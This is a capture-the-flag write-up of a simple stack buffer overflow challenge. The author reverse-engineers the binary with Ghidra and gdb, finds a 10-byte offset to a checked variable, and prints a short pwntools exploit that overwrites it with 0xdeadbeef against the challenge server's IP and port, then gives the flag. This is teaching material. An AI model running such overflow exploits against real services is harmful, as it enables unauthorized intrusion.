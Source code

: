 In this pwn challenge with the following description:
```
It's a b0f , Can't be easier than that.

Service : nc 68.183.158.95 8989
```

We were given a normal 64 bit ELF without the source code, so I started with some reverse with Ghidra and the main appears to be a normal algorithm which asks for a string and in the end checks whether a variable is equals to a certain value:

![main function](main.png)

The weird thing is that it reads up to 0x100 bytes, so let's check in gdb the address of the variable filled and the checked one:

```
0x40074f <main+136>:	lea    rax,[rbp-0xe]
0x400753 <main+140>:	mov    esi,0x100
0x400758 <main+145>:	mov    rdi,rax
0x40075b <main+148>:	call   0x4005c0 <fgets@plt>
```

Here we are loading the address of the variable in the register so that fgets can use it to store bytes, let's get the address and it's content after the reading:

```
x/s $rbp-0xe
0x7fffffffe6c2:	"asdasd\n"
```

Here is the checking part:

```
0x400760 <main+153>:	cmp    DWORD PTR [rbp-0x4],0xdeadbeef
0x400767 <main+160>:	jne    0x400777 <main+176>
```

Let's get the address:
```
x/s $rbp-0x4
0x7fffffffe6cc:	"\276\272\376ʐ\a@"
```

So the offset between the two variables is 10 bytes. We can overwrite the content of the checked variables and we can overwrite it with the desired value so that the check si true. So the exploit is as simple:

```python
#!/usr/bin/python2

from pwn import *

padding = 'A'*10
payload = padding + p32(0xdeadbeef)

r = connect('68.183.158.95' , 8989)
r.sendline(payload)
r.interactive()
```

In the end the flag is:
```
d4rk{W3lc0me_t0_th3_w0rld_0f_pwn}c0de
```